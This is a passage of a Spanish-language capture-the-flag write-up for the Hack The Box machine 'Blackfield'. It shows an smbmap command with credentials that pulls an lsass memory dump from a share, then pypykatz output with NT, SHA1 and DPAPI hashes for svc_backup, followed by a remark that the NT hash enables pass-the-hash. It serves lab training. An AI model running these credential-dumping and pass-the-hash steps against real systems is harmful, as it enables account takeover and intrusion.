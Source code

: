 lsass.zip nos llama la atencion porque hay una utilidad pypykatz con la cual podriamos ver informacion relevante
dumpeada a nivel de memoria. Esto quiere decir que anteriormente esta maquina ya a sido pwneada por alguien

    smbmap -H 10.10.10.192 -u 'audit2020' -p 'atreus123!' --download forensic/memory_analysis/lsass.zip

        [+] Starting download: forensic\memory_analysis\lsass.zip (41936098 bytes)
        [+] File output to: /home/atreus/HTB/blackfield/content/10.10.10.192-forensic_memory_analysis_lsass.zip

## [](#header-2)pypykatz (anteriormente extraimos lo que existe en lsass.zip)

unzipeamos el lsass.zip para despues dumpear el contenido con pypykatz

    pypykatz lsa minidump lsass.DMP

    INFO:pypykatz:Parsing file lsass.DMP
    FILE: ======== lsass.DMP =======
    == LogonSession ==
    authentication_id 406458 (633ba)
    session_id 2
    username svc_backup
    domainname BLACKFIELD
    logon_server DC01
    logon_time 2020-02-23T18:00:03.423728+00:00
    sid S-1-5-21-4194615774-2175524697-3563712290-1413
    luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

tenemos hashes NT que nos sirve para realizar PassTheHash sin proporcionar contraseña en texto claro

- HASH NT del usuario svc_backup 
